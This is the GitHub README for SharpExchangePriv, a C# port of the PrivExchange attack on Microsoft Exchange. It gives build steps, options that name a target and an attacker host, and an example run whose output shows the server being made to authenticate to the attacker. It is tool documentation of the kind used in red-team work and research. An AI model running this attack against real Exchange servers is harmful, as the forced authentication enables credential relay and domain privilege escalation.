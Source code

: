 # SharpExchangePriv

## Description ##

A C# implementation of PrivExchange by [@_dirkjan](https://twitter.com/_dirkjan). Kudos to [@g0ldenGunSec](https://twitter.com/G0ldenGunSec), as I relied on his code.

It was tested against Exchange 2016.

## Compile Instructions ## 

SharpExchangePriv has been built against .NET 3.5 and is compatible with Visual Studio 2017. Simply open the solution file and build the project.

I used the CommandLineParser in order to parse the arguments. This will create the `CommandLine.dll` file, along with the executable. You can simple merget the .exe and the .dll into one executable file:

`ILMerge.exe /out:C:\SharpExchangePriv.exe C:\Release\SharpExchangePriv.exe C:\Release\CommandLine.dll`

## Usage ##

#### `--targetHost`

Set the IP of the target host.

#### `--attackerHost`

Set the attacker's IP

#### `--attackerPort`

Set the attacker's port

#### `--attackerPage`

Set the attacker's page

#### `--ssl`

Enable SSL

#### `--exchangeVersion`

Set Exchange version, default is 2016

#### `--exchangePort`

Set Exchange target port

## Example ##

```
C:\Users\george.brown\Desktop>SharpExchangePriv.exe --attackerHost 192.168.11.132 --targetHost 192.168.11.10
 /$$$$$$$           /$$            /$$$$$$$$                     /$$
| $$__  $$         |__/           | $$_____/                    | $$
| $$  \ $$ /$$$$$$  /$$ /$$    /$$| $$       /$$   /$$  /$$$$$$$| $$$$$$$   /$$$$$$  /$$$$$$$   /$$$$$$   /$$$$$$
| $$$$$$$//$$__  $$| $$|  $$  /$$/| $$$$$   |  $$ /$$/ /$$_____/| $$__  $$ |____  $$| $$__  $$ /$$__  $$ /$$__  $$
| $$____ /| $$  \__ /| $$ \  $$/$$/ | $$__ /    \  $$$$/ | $$      | $$  \ $$  /$$$$$$$| $$  \ $$| $$  \ $$| $$$$$$$$
| $$     | $$      | $$  \  $$$/  | $$        >$$  $$ | $$      | $$  | $$ /$$__  $$| $$  | $$| $$  | $$| $$_____ /
| $$     | $$      | $$   \  $/   | $$$$$$$$ /$$/\  $$|  $$$$$$$| $$  | $$|  $$$$$$$| $$  | $$|  $$$$$$$|  $$$$$$$
|__/     |__/      |__/    \_/    |________/|__/  \__/ \_______/|__/  |__/ \_______/|__/  |__/ \____  $$ \_______/
                                                                                               /$$  \ $$
                                                                                              |  $$$$$$/
                                                                                               \______ /
                                                                                                            @den_n1s

The target URL is https://192.168.11.10:443/EWS/Exchange.asmx

Sent request to exchange server: https://192.168.11.10:443/EWS/Exchange.asmx

HTTP 200 response received, the target Exchange server should be authenticating shortly.
```

## Contact ##

Please submit any bugs on the Github project page or give me a shout on twitter [@den_n1s](https://twitter.com/den_n1s)

